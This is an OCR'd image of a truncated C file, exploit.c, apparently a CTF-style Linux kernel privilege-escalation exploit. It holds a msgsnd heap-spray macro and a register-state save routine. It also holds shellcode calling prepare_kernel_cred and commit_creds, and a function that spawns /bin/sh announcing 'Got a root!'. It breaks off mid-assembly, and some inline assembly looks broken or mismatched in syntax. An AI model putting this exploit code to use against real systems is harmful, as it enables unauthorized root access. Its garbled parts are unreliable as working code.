 ```exploit.c
// (END globals)


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  puts("[!] NIRUGIRI!");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  puts("\n\n Got a root! 🎉🎉🎉");
  execve("/bin/sh",argv,envp);
}

// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}

ulong kernbase;
ulong commit_creds, prepare_kernel_cred;

static void shellcode(void){
  ulong init_cred;
  asm(
    "mov %%rdi, 0x0\n"
    "call %P1\n"
    "movq %0, %%rax"
    : "=r" (init_cred) : "r" ((void*)prepare_kernel_cred) : "memory"
  );
  asm(
      "mov %%rdi, %0\n"
      "call %P1\n" 
```
